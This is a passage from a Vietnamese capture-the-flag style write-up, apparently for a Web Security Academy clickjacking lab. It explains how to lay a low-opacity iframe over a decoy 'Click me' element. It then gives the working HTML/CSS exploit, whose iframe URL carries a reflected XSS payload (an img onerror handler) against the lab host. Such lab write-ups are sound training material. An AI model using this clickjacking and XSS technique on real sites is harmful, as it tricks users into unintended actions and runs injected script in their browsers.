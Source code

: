 ![Untitled](writeup_media/Untitled%2027.png)

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Submit feedback

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 900px;
        opacity: 0.1;
        z-index: 1;
    }

    div {
        position: absolute;
        top: 790;
        left: 80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0a8c00ee03e5a259c108378b00e00029.web-security-academy.net/feedback?name=%3Cimg%20src=a%20onerror=print()%20/%3E&email=a@a.a&subject=a&message=a"></iframe>
```
